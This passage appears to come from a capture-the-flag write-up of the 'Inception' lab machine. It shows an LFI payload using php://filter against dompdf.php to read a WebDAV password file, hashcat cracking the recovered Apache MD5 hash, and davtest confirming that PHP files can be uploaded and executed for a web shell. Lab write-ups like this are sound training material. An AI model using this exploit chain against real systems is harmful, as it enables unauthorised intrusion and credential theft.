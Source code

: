 Looking at the /etc/apache2/sites-enabled/000-default.conf file that we have extracted from the website using the LFI vulnerability, we are able to obtain another endpoint ```/webdav_test_inception```. From the configuration file, we are also able to obtain the location of the authentication file to be at /var/www/html/webdav_test_inception/webdav.passwd

```
Alias /webdav_test_inception /var/www/html/webdav_test_inception
<Location /webdav_test_inception>
	Options FollowSymLinks
	DAV On
	AuthType Basic
	AuthName "webdav test credential"
	AuthUserFile /var/www/html/webdav_test_inception/webdav.passwd
	Require valid-user
</Location>
```

### Exploiting webdav
Navigating to http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/var/www/html/webdav_test_inception/webdav.passwd, we are able to obtain the base64-encoded value of a password hash

![Obtaining password hash](./Images/password_hash.png)

Using hashid, we recognize the hash type as MD5(APR). From the output, we can obtain the decoded value as ```babygurl69```

```
┌──(kali㉿kali)-[~]
└─$ hashid '$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0'              
Analyzing '$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0'
[+] MD5(APR) 
[+] Apache MD5 
```

Next, we will use hashcat to crack the hash

```
┌──(kali㉿kali)-[~/Desktop/inception]
└─$ hashcat -m 1600 hash.txt /home/kali/Desktop/pentest/wordlist/rockyou.txt
...
$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0:babygurl69
...
```

### Exploiting webdav
Next, we will use davtest to test the webdav service found on http://inception.htb/webdav_test_inception.  From the output, we can see that we can upload a php web shell and execute commands on the php webshell.

```            
┌──(kali㉿kali)-[~/Desktop/inception]
└─$ davtest -url http://inception.htb/webdav_test_inception -auth webdav_tester:babygurl69
********************************************************
 Checking for test file execution
EXEC    html    SUCCEED:        http://inception.htb/webdav_test_inception/DavTestDir_kkxD_jN7Zg/davtest_kkxD_jN7Zg.html
EXEC    shtml   FAIL
EXEC    jsp     FAIL
EXEC    php     SUCCEED:        http://inception.htb/webdav_test_inception/DavTestDir_kkxD_jN7Zg/davtest_kkxD_jN7Zg.php
EXEC    jhtml   FAIL
EXEC    asp     FAIL
EXEC    cfm     FAIL
EXEC    aspx    FAIL
EXEC    cgi     FAIL
```